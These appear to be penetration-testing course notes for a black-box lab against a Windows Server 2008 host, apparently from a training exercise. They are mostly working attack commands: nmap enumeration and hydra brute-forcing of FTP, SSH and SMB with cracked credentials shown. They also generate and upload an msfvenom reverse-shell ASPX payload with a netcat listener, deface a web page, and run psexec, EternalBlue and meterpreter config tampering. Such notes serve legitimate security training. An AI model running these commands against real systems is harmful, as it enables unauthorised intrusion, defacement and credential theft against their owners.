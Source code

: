 # 45 Windows Exploitation

# Windows Black Box Penetration Test

- A black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target system or network (No IP ranges, system information or default credentials are provided)
- The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary
- This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company's systems or networks

## Black Box Methodology

- Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Exploitation
	- Manual
	- Automated
- Post Exploitation
	- Privilege Escalation
	- Persistence
	- Dumping Hashes

---

# Scenario & Scope

- You have just begun your first job as a Junior Penetration Tester and have been assigned to assist in performing a penetration test on a client's network
- The pentest lead has assigned you to gain access/exploit a host running Windows Server 2008
- Your primary objectives are:
	- Identify services running on the target
	- Identify vulnerabilities within the services
	- Exploit these vulnerabilities to obtain an initial foothold 

---

# Port Scanning & Enumeration

```shell
nmap -T4 -PA -sC -sV -p 1-10000 <ip> -oX <name> # Save in XML format (Metasploit)
	msf6: db_import <file-path> # Import XML in msf
	msf6: auxiliary(scanner/smb/smb_version) # Save the name of the computer trick
nc -nv <ip> <port> # Banner grabbing 
```


# Targeting Microsoft IIS FTP

```shell
nmap -sV -sC -p21,80 <ip>
# Also port 80 becouse Microsoft ftpd it's a package or part of Microsoft IIS
# They're both intertwined 
# FTP server is used to allow authenticated user to modify the Web server directory

# Use nmap script
la -ls /usr/share/nmap/scripts | grep ftp-
nmap -p21 --script=<name> 

# Try anonymous access
ftp <ip> <port> # Hit enter or try "anonymous" user

# Bruteforce
hydra -L <user-wordlist> -P <password-wordlist> <ip> ftp
[21][ftp] host: 10.2.27.73   login: vagrant   password: vagrant                              [21][ftp] host: 10.2.27.73   login: administrator   password: vagrant  

# Generate payload
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=1234 -f asp > shell.aspx

# Upload payload
Login into ftp vagrant:vagrant 
ftp: put shell.aspx

# Try execute the payload and setup listener
firefox: <ip>/shell.aspx
nc -nvlp <port>

# Deface webserver
ftp: get index.html # Download index file
nano index.html # Edit index file
ftp: put index.html # Upload edited index file
```


# Targeting OpenSSH

```shell
nmap -sV -sC -p22 <ip>
# Don't really matter what product or service (OpenSSH, LibSSH, etc)
# Important to consider the OS it is running on
# Utilize user account on the Windows or linux systems for authentication

searchsploit OpenSSH

hydra -l vagrant -P <password-wordlist> <ip> ssh # The user that i already found 
[22][ssh] host: 10.2.27.73   login: vagrant   password: vagrant

ssh vagrant@<ip> # Login into SSH
bash # If you want typical Windows CMD session
whoami /priv # See the privilege 

# Get meterpreter session
msf6: auxiliary(scanner/ssh/ssh_login)

# Can generate msfvenom payload and trasfer it over the target system via our SSH access
```


# Targeting SMB

```bash
nmap -sV -sC -p445 <ip>

# Bruteforce with already known users 
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt <ip> smb
[445][smb] host: 10.2.27.84   login: administrator   password: vagrant
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt <ip> smb
[445][smb] host: 10.2.27.84   login: vagrant   password: vagrant

# May can authenticate via RDP with those credentials

# Enum shares with credentials 
smbclient -L <ip> -U <user>
smbmap -u <user> -p <password> -H <ip>

# Enum user with credentials
enum4linux -u <user> -p <password> -U <ip>
msf6: auxialiary(scanner/smb/smb_enumusers)

# Authenticate via SMB with credentials (CMD)
locate psexec.py
cp <path>/psexec.py . # Copy in another dir
python3 psexec.py <user> <password> <ip>
# Alternative
msf6: exploit(scanner/smb/psexec)

# Windows Server 2008 and Windows Server 2008 R2 are vulnerable to EternalBlue
msf6: exploi(windows/smb/ms17_010_eternalblue)
```


# Targeting MySQL Database Server

```shell
nmap -sV -sC -p3306,8585 <ip>
searchsploit MySQL <version>

# Bruteforce
msf6: auxiliary(scanner/mysql/mysql_login)
# Can try with "root" default user 

# Login
mysql -u <user> -p <password> -h <ip>

# Exploit SMB to gain access and then edit phpmyadmin config file or other config file that may have credentials 
meterpreter: download phpmyadmin.conf
# Edit file
meterpreter: upload phpmyadmin.conf
# When edit config file need to restart apache
meterpreter: shell
shell: net stop wampapache
shell: net start wampapache
```